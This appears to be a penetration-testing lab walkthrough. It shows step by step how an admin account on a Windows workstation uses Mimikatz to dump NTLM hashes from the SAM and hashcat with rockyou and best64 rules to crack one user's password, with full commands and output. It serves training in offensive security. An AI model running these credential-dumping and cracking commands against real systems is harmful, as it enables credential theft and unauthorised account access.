


# Cracking NTLM

## Background and Assumptions

This example will attack a machine called `MARKETINGWK01`. For the purposes of the example, assume that the attacker has already compromised an account (with credentials `offsec:lab`) that has local Administrator. Also assume they have access to the machine via RDP. Finally for simplification purposes, assume the attacker has already installed a copy of the Mimikatz tool at `C:\tools\mimikatz.exe`.

## Extracting the Hash

Once an RDP connection is established and a PowerShell session launched, the first step is to use the `Get-LocalUser` cmdlet to determine which users exist on the system:

```powershell
PS C:\Users\offsec> Get-LocalUser

Name               Enabled Description
----               ------- -----------
Administrator      False   Built-in account for administering the computer/domain
DefaultAccount     False   A user account managed by the system.
Guest              False   Built-in account for guest access to the computer/domain
nelly              True
offsec             True
sam                True
WDAGUtilityAccount False   A user account managed and used by the system for Windows Defender Application Guard scen...
```

The output indicates the existence of another user named `nelly` on the `MARKETINGWK01` system. The goal in this example is to obtain `nelly`'s plain text password by retrieving the NTLM hash and cracking it.

Obviously the credentials of users are stored when they log on to a Windows system, but credentials are also stored in other ways. For example, the credentials are also stored when a service is run with a user account.

Mimikatz will be leveraged to check for stored credentials on the system. The first step is to launch a new PowerShell session as Administrator:

<figure><figcaption><p>Launching PowerShell as Administrator</p></figcaption></figure>

Once the session is opened, navigate to `C:\tools` and launch Mimikatz:

```powershell
PS C:\Windows\system32> cd C:\tools

PS C:\tools> ls

    Directory: C:\tools


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/31/2022  12:25 PM        1355680 mimikatz.exe

PS C:\tools> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

According to the prompt, Mimikatz is running and can be interacted with through its command-line environment. Each command consists of a module and a command delimited by two colons, for example, `privilege::debug`.

Various commands can be used to extract credentials from the system. One of the most common Mimikatz commands is `sekurlsa::logonpasswords`, which attempts to extract plaintext passwords and password hashes from all available sources. While this is very helpful, the amount of output is huge and not suitable for this example.

Instead `lsadump::sam` will be used. This will extract the NTLM hashes from the SAM. For this command, the attacker must first enter `token::elevate` to elevate to `SYSTEM` user privileges.

Keep in mind, both commands, `sekurlsa::logonpasswords` and `lsadump::sam`, must have the _SeDebugPrivilege_ access right enabled. This is accomplished via `privilege::debug`:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
 
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
...

RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```

From here, the hash can be moved to the attacker's machine and cracked offline.

## Cracking the Hash

Now that the hash has been obtained:


```
3ae8e5f0ffabb3a627672e1600f1ba10
```


The first step is to determine which cracking tool supports this hash. Check hashcat first because it's easier:

```shell-session
kali@kali:~/passwordattacks$ hashcat --help | grep -i "ntlm"
                                                                            
   5500 | NetNTLMv1 / NetNTLMv1+ESS                           | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                      | Network Protocol
   5600 | NetNTLMv2                                           | Network Protocol
  27100 | NetNTLMv2 (NT)                                      | Network Protocol
   1000 | NTLM                                                | Operating System
```

The output indicates the proper mode is 1000. The next step is choosing a wordlist and rule file. For this example the `rockyou.txt` wordlist will be used with the `best64.rule` rule file, which contains 64 effective rules. This will all be combined with the command:


```
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```


And the resulting output:

```shell-session
kali@kali:~$ hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.2.6) starting
...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 1104517645

3ae8e5f0ffabb3a627672e1600f1ba10:nicole1                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 3ae8e5f0ffabb3a627672e1600f1ba10
...
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5594.7 kH/s (8.39ms) @ Accel:256 Loops:77 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 157696/1104517645 (0.01%)
...

Started: Tue Oct 17 18:03:19 2023
Stopped: Tue Oct 17 18:03:59 2023
```

And thus the attacker can log in as `nelly` via RDP using the password `nicole1`:

<figure><figcaption><p>Successful login</p></figcaption></figure>
